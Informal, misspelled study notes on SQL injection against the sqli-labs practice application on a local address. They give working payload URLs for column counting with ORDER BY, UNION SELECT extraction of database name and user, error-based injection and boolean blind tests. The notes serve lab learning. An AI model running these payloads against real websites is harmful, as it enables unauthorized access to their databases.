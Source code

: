 1. find total no of vulnerable columns 

order by 1{same page }

order by 2 {same page }


order by n {different page }

there is n-1 columns are prsenet

http://192.168.1.103/sqli-labs-master/Less-1/?id=1' order by 1  --    

2. find exact no of vulnerable columns out of these n-1 

union all select 1,2,...n-1 

example 

union all select 1,2,3

select id=-1' union all select 1,2,3  --  where name =xyz 


executed - http://192.168.1.103/sqli-labs-master/Less-1/?id=-1' union all select 1,2,3 --  

3. execute any datbase sqli query there 

on that reflect no 

example - database()

version()

user()

executed - http://192.168.1.103/sqli-labs-master/Less-1/?id=-1' union all select 1,database(),3 --  

http://192.168.1.103/sqli-labs-master/Less-1/?id=-1' union all select 1,database(),user() --  

--------------------------------------------

situtation you are getting error but you are not getting output of union sqli staement in that case there may error based sqli or may be double query based sqli 


http://192.168.1.103/sqli-labs-master/Less-5/?id=-1'       --  


error/double based sqli query -> hackbar->error/double->get database 

-----------------------------------------
Blind SQLI 

blind boolien based sqli 

and 1=1 {true }

and 1=2 {false }

and "a"="b"

and database()="xyz"

we can not assume the database 
